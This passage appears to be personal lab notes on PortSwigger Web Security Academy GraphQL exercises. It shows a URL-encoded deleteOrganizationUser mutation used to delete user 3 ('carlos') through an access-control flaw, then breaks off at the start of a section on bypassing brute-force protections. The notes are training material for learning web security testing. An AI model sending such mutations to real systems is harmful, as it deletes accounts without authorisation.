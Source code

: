 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6e75adfb-0613-46ba-af61-fa8d44726445)




Send the getUser query to decoder and url encode
User 3 is carlos
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b4710dc4-2804-4a06-9f6e-2c1cbc5c1121)
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d2179fb4-60b1-4ded-9683-f273966e400f)








Notice the delete user from previous 

```
mutation {
    deleteOrganizationUser(input: DeleteOrganizationUserInput) {
        user {
            id
            username
        }
    }
}
```


Send to decoder and url encode


```
mutation {
	deleteOrganizationUser(input:{id: 3}) {
		user {
			id
		}
	}
}
```
                                

User been deleted
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/384a8387-d902-4245-99de-0dccb91fffcc)




***Bypassing GraphQL brute force protections***

From <https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass> 

Login and send request to inqlscanner
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/941f39a9-3d6f-4dbf-a39c-2dee050e5f47)



Notice 
